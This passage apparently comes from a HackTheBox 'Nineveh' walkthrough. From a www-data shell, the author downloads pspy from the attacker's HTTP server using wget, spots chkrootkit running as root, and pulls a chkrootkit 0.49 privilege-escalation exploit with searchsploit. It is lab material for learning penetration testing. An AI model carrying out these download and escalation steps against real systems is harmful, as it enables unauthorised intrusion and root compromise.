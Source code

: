 Looking at the LinEnum results showed nothing of interest. So lets try monitoring the processes instead!

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# ls                       
LinEnum.sh  pspy32s
                                                                         
- Netcat Listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.43 - - [28/Jun/2022 22:52:43] "GET /pspy32s HTTP/1.1" 200 -


www-data@nineveh:/tmp$ wget http://10.10.14.29/pspy32s
wget http://10.10.14.29/pspy32s
--2022-06-28 09:52:43--  http://10.10.14.29/pspy32s
Connecting to 10.10.14.29:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1090528 (1.0M) [application/octet-stream]
Saving to: 'pspy32s'
...
2022-06-28 09:52:43 (6.21 MB/s) - 'pspy32s' saved [1090528/1090528]

www-data@nineveh:/tmp$ chmod +x pspy32s
chmod +x pspy32s

www-data@nineveh:/tmp$ ./pspy32s
./pspy32s
...
2022/06/28 09:54:02 CMD: UID=0    PID=12776  | grep -E c 
2022/06/28 09:54:02 CMD: UID=0    PID=12775  | /bin/sh /usr/bin/chkrootkit 
2022/06/28 09:54:02 CMD: UID=0    PID=12774  | /bin/sh /usr/bin/chkrootkit 
...
```

Oh? There’s an interesting `/usr/bin/chkrootkit` process running as root!

Lets check if there’s any vulnerability associated with it.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# searchsploit chkrootkit             
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                                | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                        | linux/local/33899.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# searchsploit -m 33899  
  Exploit: Chkrootkit 0.49 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/33899
     Path: /usr/share/exploitdb/exploits/linux/local/33899.txt
File Type: ASCII text

Copied to: /home/shiro/HackTheBox/Nineveh/33899.txt
```